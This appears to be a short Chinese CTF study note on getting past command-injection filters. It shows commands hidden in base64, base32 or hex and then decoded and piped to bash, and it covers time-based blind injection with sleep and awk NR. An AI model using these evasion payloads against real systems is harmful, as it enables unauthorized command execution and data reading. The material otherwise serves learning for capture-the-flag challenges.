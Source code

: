**绕过原理**

命令编码后的字符串—->绕过过滤----->目标服务器---->解码读取命令---->执行命令

1. base64/base32编码

   ```python
   import base64
   S=b'cat flag.php' # 参数S的类型必须是字节包(byte)
   e64=base64.b64encode(S) # e64=base64.b32encode(S)
   print(e64)
   
   cat flag.php---->Y2F0IGZsYWcucGhw
   
   echo Y2F0IGZsYWcucGhw | base64 -d # base32 -d
   |把前面指令执行的结果,变成后面指令的参数
   
   echo Y2F0IGZsYWcucGhw | base64 -d | bash
   |把cat flag.php放在bash里执行
   或者
   `echo Y2F0IGZsYWcucGhw | base64 -d`
   或者
   $(echo Y2F0IGZsYWcucGhw | base64 -d)
   ```

2. HEX编码

   ```python
   import binascii
   s=b"tac flag"
   h=binascii.b2a_hex(s)
   print(h)
   
   tac flag.php---->74616320666c6167
   echo "74616320666c6167" | xxd -r -p | bash
   xxd : 二进制显示和处理文件工具
   -r -p将纯十六进制转储的反向输出打印为了ASCII格式
   ```

## 无回显时间盲注

页面无法shell反弹或者无法回显 , 或者没有写入权限 , 可以尝试命令盲注 , 根据返回的时间来进行判断

1. sleep

2. awk NR
   用于逐行获取数据

   ```shell
   cat flag
   hello
   Flag{success!!}
   cat flag | awk NR==1
   hello
   cat flag | awk NR==2
   Flag{success!!}
   ```
